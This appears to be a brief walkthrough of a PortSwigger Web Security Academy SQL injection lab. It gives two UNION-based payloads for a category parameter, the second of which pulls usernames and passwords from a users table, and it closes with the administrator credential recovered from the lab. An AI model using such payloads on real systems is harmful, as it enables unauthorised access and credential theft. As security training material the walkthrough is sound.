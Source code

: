 ### [Lab 8: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

1. Determine the [number of columns that are being returned by the query](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns) and [which columns contain text data](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text). Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:

   ```
   '+UNION+SELECT+'abc','def'--
   ```

2. Use the following payload to retrieve the contents of the `users` table:

   ```
   '+UNION+SELECT+username,password+FROM+users--
   ```

![image-20250525194036090](./image/image-20250525194036090.png)

**administrator:wqfnnzd20pwxgsby82av**
